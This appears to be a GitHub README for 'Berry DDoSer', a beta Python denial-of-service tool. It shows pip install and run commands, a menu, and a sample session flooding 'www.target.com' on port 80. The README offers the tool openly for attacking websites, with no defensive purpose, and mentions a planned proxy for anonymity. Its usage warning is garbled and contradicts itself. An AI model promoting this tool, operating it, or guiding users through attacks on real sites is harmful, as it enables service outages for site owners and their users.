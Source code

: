 ### Berry
Berry DDoSer is going to take ddosing to the next level... Currently it is under no proxy so provided you have a VPN on, DO NOT USE! Proxy will later be implemented for security and anonymity purposes.

### Size
N/A

### Amplified DoS Attack
N/A

### Version
Currently in beta: v0.0.1

### Install Requirements
```
root@strrrry:~/berry# pip install -r requirements.txt
```

### Run Berry
```
root@strrrry:~/berry/berry# python berry.py

	  ,/         \.  
	 ((           )) 
	  \`.       ,'   
	   )')     (`(	  
	 ,'`/       \,`. 
	(`-(         )-')
	  \-')     (`-/  
	  /`'       `'\  
	 (  _       _  ) 
	 | ( \     / ) | 
	 |  `.\   /,'  | 
	 |    `\ /'    | 
	 (             ) 
	  \           /  
	   \         /   
	    `.     ,'    
	      `-.-'      
	             [v0.0.1]

Select option:

	 [1] Berry DDoSer
	 [2] Start Webgui (Currently Still in Beta)

0) To Exit


berry >  
```

```
root@strrrry:~/berry/berry# python berry.py

	  ,/         \.  
	 ((           )) 
	  \`.       ,'   
	   )')     (`(	  
	 ,'`/       \,`. 
	(`-(         )-')
	  \-')     (`-/  
	  /`'       `'\  
	 (  _       _  ) 
	 | ( \     / ) | 
	 |  `.\   /,'  | 
	 |    `\ /'    | 
	 (             ) 
	  \           /  
	   \         /   
	    `.     ,'    
	      `-.-'      
	             [v0.0.1]

Select option:

	 [1] Berry DDoSer
	 [2] Start Webgui (Currently Still in Beta)

0) To Exit


berry > 1

[!] DDoS Mode Loaded
Website to DDoS: www.target.com
Number of Packets: 5
[Tue Jul  7 19:03:35 2015] [DDoS Attack Serving on port: 80..]
[Tue Jul  7 19:03:35 2015] [DDoS Attack Serving on port: 80..]
[Tue Jul  7 19:03:36 2015] [DDoS Attack Serving on port: 80..]
[Tue Jul  7 19:03:36 2015] [DDoS Attack Serving on port: 80..]
[Tue Jul  7 19:03:36 2015] [DDoS Attack Serving on port: 80..]
root@strrrry:~/berry/berry#
```